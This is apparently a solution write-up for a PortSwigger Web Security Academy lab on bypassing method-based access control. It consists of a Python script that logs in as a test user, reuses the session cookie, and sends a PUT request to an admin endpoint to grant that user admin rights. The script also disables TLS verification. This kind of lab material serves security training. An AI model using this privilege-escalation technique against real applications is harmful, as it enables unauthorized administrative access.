 # Lab: Method-based access control can be circumvented

Link to lab: https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0aec003503dd6fe9c7c42b56009a00fc.web-security-academy.net/'

session = requests.Session()

response = session.get(
    url + 'login',
    verify=False,
)

data = {
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + 'login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]


cookies = {
    'session': session
}

data = {
    "username":"wiener",
    "action":"upgrade"
}

response = requests.put(
    url + 'admin-roles',
    cookies=cookies,
    data=data,
    verify=False,
)

print(response.text)
```